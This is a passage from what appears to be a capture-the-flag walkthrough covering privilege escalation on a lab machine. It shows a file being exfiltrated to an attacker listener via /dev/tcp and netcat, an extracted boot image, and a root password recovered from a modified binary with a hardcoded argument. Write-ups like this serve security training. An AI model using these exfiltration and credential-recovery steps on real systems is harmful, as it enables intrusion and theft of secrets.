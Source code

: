 <br>

### Privilege Escalation
Running `id`, we see that guly belongs to "grub" group.

Looking at `mount` output, we see `/dev/mapper/sda2_crypt`. This indicates that the disk is encrypted.

Also, `find / -group grub -ls 2>/dev/null` returns as a boot image.

We can copy this image to our box and decompress it.
```bash
nc -lvnp 443 > initrd.img

cat /boot/initrd.img-4.9.0-8-amd64 > /dev/tcp/10.10.14.2/443

zcat initrd.img | cpio -idmv
```

We can search for files between dates.
```bash
find . -type f -newermt 2018-12-19 ! -newermt 2018-12-21 -ls
```

Analyzing `./scripts/local-top/cryptroot`, we find the function that encrypts and this command:
```bash
/sbin/uinitrd c0m3s3f0ss34nt4n1
```

If we run this command on our image, we get "supercazzola".

We can trace what the binary is doing with strace.
```bash
strace uinitrd
```

It seems to open `/etc/hostname` or `/boot/guid`. Create this file on our machine with the content of the victim and execute `/sbin/uinitrd c0m3s3f0ss34nt4n1` again to get the root password.

<br>

You can also perform all of this in victim's machine as below.
```
# Copy img to /tmp/initrd
mkdir initrd
cd initrd

cp /boot/initrd.img-4.9.0-8-amd64 .

# Use gzip
mv initrd.img-4.9.0-8-amd64 initrd.img-4.9.0-8-amd64.gz
gzip -d initrd.img-4.9.0-8-amd64.gz

# Extract it
cpio -idvm < initrd.img-4.9.0-8-amd64

# Copy to home and execute it
cd
cp /tmp/initrd/sbin/uinitrd .

./uinitrd c0m3s3f0ss34nt4n1
```

#### Extra

IppSec run `gixy` to inspect nginx and find vulnerabilities.
